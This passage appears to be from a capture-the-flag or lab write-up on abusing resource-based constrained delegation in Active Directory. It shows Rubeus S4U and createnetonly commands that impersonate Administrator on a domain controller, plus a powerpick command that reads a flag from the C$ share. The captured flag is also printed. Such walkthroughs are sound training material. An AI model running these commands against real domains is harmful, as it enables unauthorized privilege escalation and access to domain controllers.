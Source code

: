 ### Impersonating Administrator and Accessing Resources:

1. **Perform S4U Technique:**
   ```
   execute-assembly /Users/ahmedpinger/Documents/Tools/Rubeus/Rubeus/bin/Release/Rubeus.exe s4u /user:EvilComputer$ /impersonateuser:Administrator /msdsspn:cifs/dc-1.kikrr.local /ticket:doIFtjC[.....]CBbKgAwIBBaEDA /nowrap
   ```
   This command uses the obtained ticket to impersonate the `Administrator` user for the target service `cifs/dc-1.kikrr.local` using the S4U protocol. The ticket used here is of user `EvilComputer$`

2. **Create NetOnly Process with S4U Ticket:**
   ```
   execute-assembly /Users/ahmedpinger/Documents/Tools/Rubeus/Rubeus/bin/Release/Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:KIKRR /username:Administrator /password:FakePass /ticket:doIGp[.....]DCCBqC
   ```
   This command creates a NetOnly process with the obtained S4U ticket, allowing command execution as the `Administrator` user.

3. **Access Flag on Administrator's Desktop:**
   ```
   powerpick type \\dc-1.kikrr.local\c$\Users\Administrator\Desktop\flag.txt
   ```
   This command accesses and displays the content of the `flag.txt` file located on the Administrator's desktop on the domain controller.

### Extracted Information:

- **Final Flag:**
  ```
  flag{RBCD_HMMM!_Nice_One_Now_You_Are_k1NG!!!!!!}
  ```
  This is the final flag obtained from the domain controller.
